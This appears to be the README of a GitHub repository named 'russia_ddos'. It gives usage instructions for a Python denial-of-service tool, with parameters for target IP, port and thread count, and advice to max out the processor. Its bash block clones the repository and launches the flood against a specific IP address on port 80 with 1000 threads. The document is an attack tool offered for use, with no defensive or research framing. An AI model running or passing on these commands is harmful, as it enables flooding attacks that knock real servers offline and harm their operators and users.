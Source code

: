 ## Usage
Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count. The most important setting. Try to keep the processor loaded up to 100%.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos
python -u main.py -s 213.24.76.23 -p 80 -t 1000
```
